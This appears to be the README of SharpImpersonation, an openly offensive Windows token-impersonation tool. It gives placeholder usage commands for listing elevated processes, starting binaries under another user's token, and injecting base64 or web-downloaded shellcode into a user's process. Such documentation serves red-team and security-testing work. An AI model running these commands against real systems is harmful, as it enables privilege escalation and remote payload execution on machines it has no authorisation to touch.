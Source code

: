 # SharpImpersonation

This was a learning by doing project from my side. Well known techniques are used to built *just* another impersonation tool with some improvements in comparison to other public tools. The code base was taken from:

* [https://github.com/0xbadjuju/Tokenvator](https://github.com/0xbadjuju/Tokenvator)

A blog post for the intruduction can be found here:

* [https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/](https://s3cur3th1ssh1t.github.io/SharpImpersonation-Introduction/)

## Usage examples

===========================    List user processes    ===========================

`SharpImpersonation.exe list`

![alt text](https://github.com/S3cur3Th1sSh1t/SharpImpersonation/blob/main/Images/List.PNG?raw=true)

===========================    List only elevated processes    ===========================

`SharpImpersonation.exe list elevated`

===========================    Impersonate the first process of <user> to start a new <binary>    ===========================

`SharpImpersonation.exe user:<user> binary:<binary-Path>`

![alt text](https://github.com/S3cur3Th1sSh1t/SharpImpersonation/blob/main/Images/CreateProcessWithTokenW.PNG?raw=true)

======================  Inject base64 encoded shellcode into the first process of <user>  ======================

`SharpImpersonation.exe user:<user> shellcode:<base64shellcode>`

![alt text](https://github.com/S3cur3Th1sSh1t/SharpImpersonation/blob/main/Images/ShellcodeBase64.PNG?raw=true)

======================  Inject shellcode loaded from a webserver into the first process of <user>  ======================

`SharpImpersonation.exe user:<user> shellcode:<URL>`

![alt text](https://github.com/S3cur3Th1sSh1t/SharpImpersonation/blob/main/Images/ShellcodeWebDownload.PNG?raw=true)

<u>Impersonate user <user> via ImpersonateLoggedOnuser for the current session</u>

`SharpImpersonation.exe user:<user> technique:ImpersonateLoggedOnuser`

![alt text](https://github.com/S3cur3Th1sSh1t/SharpImpersonation/blob/main/Images/ImpersonateLoggedOnUser.png?raw=true)